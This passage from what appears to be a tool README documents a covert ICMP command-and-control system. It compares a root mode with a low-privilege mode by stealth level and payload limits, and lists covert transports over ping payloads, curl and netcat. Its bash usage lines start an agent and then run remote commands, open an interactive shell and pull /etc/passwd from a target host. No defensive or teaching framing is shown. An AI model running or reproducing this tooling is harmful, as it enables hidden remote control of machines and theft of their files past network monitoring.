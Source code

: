 | Feature | Full Mode | Low-Privilege Mode |
|---------|-----------|-------------------|
| **Privilege Level** | Root Required | Standard User |
| **Payload Size** | Up to 1472 bytes | 56 bytes max |
| **Communication Speed** | Real-time | 5-second polling |
| **Stealth Level** | High (3 levels) | Low (basic) |
| **Reliability** | High | Medium |
| **Detection Capability** | Advanced | Basic |
| **Setup Complexity** | Simple | Complex (multiple fallbacks) |
| **Network Requirements** | ICMP allowed | Multiple protocols |

## Running Without High Privileges

The system can run without root/administrator privileges using the low-privilege mode, though with some limitations:

### Low-Privilege Mode Features
- **No Root Required**: Uses standard system tools instead of raw sockets
- **Basic Functionality**: Command execution and file retrieval
- **Multiple Transport Methods**: ping, curl, netcat, environment variables
- **Local Testing**: File-based communication for testing

### Limitations
- **Reduced Stealth**: Limited obfuscation and rate limiting
- **Smaller Payloads**: Maximum 56 bytes per packet
- **Slower Communication**: Multiple fallback methods
- **Limited Detection**: Basic network monitoring only

### Usage Examples (Low-Privilege)
```bash
# Start low-privilege agent
python3 agents/low_privilege_agent.py 192.168.1.100

# Single command
python3 controllers/low_privilege_controller.py 192.168.1.100 'ls -la'

# Interactive shell
python3 controllers/low_privilege_controller.py 192.168.1.100

# File retrieval
python3 controllers/low_privilege_controller.py 192.168.1.100 'get /etc/passwd'
```

### Transport Methods Used
1. **Environment Variables**: Pass data through ping environment
2. **Ping Custom Data**: Use ping's payload option (if supported)
3. **Curl ICMP**: Use curl with ICMP protocol (if available)
4. **Netcat UDP**: Fallback to UDP communication
5. **Temporary Files**: Local file-based communication for testing

